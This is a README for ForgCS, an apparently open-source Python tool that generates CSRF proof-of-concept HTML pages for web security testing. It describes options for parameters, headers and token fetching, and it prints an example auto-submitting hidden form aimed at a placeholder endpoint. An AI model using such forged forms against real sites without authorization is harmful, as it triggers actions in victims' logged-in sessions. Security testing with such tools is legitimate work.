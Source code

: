  # ForgCS - CSRF Proof-of-Concept Generator

ForgCS is a command-line tool that generates HTML Proof-of-Concepts (PoCs) for testing Cross-Site Request Forgery (CSRF) vulnerabilities. It allows security testers to create realistic CSRF attack scenarios with customizable headers, tokens, and parameter handling, making it ideal for testing web application security.

## Features

- **Supports GET and POST requests**: Customize HTTP method to match the target endpoint.
- **Parameter Injection**: Accepts multiple parameters in `key=value` format.
- **Header Customization**: Specify `User-Agent` and `Referer` headers for more realistic testing.
- **Anti-CSRF Token Handling**: Fetches tokens dynamically from the target page if required.
- **Auto-Submission Toggle**: Automatically submit forms upon page load or require manual submission.
- **Output to HTML File**: Saves the generated PoC as an HTML file, ready for testing in the browser.

## Requirements

- **Python 3.x**
- **BeautifulSoup**: Install via `pip install beautifulsoup4`
- **Requests**: Install via `pip install requests`

## Installation

1. Clone this repository:
   ```bash
   git clone https://github.com/S2K7x/forgcs.git
   ```
2. Navigate to the ForgCS directory:
   ```bash
   cd forgcs
   ```

3. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```

## Usage

ForgCS can be run with various command-line options to control the request method, parameters, headers, token handling, and form auto-submission.

### Basic Usage

```bash
python forgcs.py "https://target.com/vulnerable_endpoint" -p user=admin pass=1234
```

### Command-Line Options

| Option                | Description                                                                                           |
|-----------------------|-------------------------------------------------------------------------------------------------------|
| `url`                 | **(Required)** The target URL of the vulnerable endpoint.                                             |
| `-m`, `--method`      | HTTP method to use, either `GET` or `POST`. Default is `POST`.                                        |
| `-p`, `--params`      | Request parameters in `key=value` format. Multiple parameters are space-separated.                    |
| `--user-agent`        | Custom `User-Agent` header to simulate specific client requests.                                      |
| `--referer`           | Custom `Referer` header to simulate requests coming from a specific page.                             |
| `-t`, `--token`       | Name of the CSRF token field if one exists. ForgCS will attempt to fetch it from the target page.     |
| `--no-auto-submit`    | Disable auto-submission of the form, requiring the user to manually submit the CSRF PoC.              |
| `-o`, `--output`      | Specify the output filename for the generated HTML file. Defaults to `csrf_poc.html`.                 |

### Example Commands

#### Fetching Anti-CSRF Token

```bash
python forgcs.py "https://target.com/vulnerable_endpoint" -p user=admin pass=1234 -t csrf_token
```

#### Setting Custom Headers

```bash
python forgcs.py "https://target.com/vulnerable_endpoint" -p action=delete user_id=5678 \
    --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64)" \
    --referer "https://target.com/login"
```

#### Disabling Auto-Submission

```bash
python forgcs.py "https://target.com/vulnerable_endpoint" -p action=update_profile email=test@example.com \
    --no-auto-submit
```

## Output

The tool generates an HTML file (default: `csrf_poc.html`) that can be opened in a browser to test CSRF vulnerabilities. The HTML form can either submit automatically or manually, based on the `--no-auto-submit` option.

## Example Output File

Below is an example of the HTML generated by ForgCS:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Enhanced CSRF PoC</title>
</head>
<body>
    <form id="csrfForm" action="https://target.com/vulnerable_endpoint" method="POST">
        <input type="hidden" name="user" value="admin">
        <input type="hidden" name="pass" value="1234">
        <input type="submit" value="Submit CSRF PoC">
    </form>
    <script>
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
```

## Security Disclaimer

ForgCS is intended solely for authorized security testing on web applications where explicit permission has been granted. Misuse of this tool against unauthorized targets may lead to legal repercussions.

## Contributing

1. Fork the repository.
2. Create a new branch: `git checkout -b feature-branch-name`.
3. Make your changes and commit: `git commit -m 'Add new feature'`.
4. Push to the branch: `git push origin feature-branch-name`.
5. Submit a pull request.

## License

ForgCS is open-source software licensed under the MIT License.
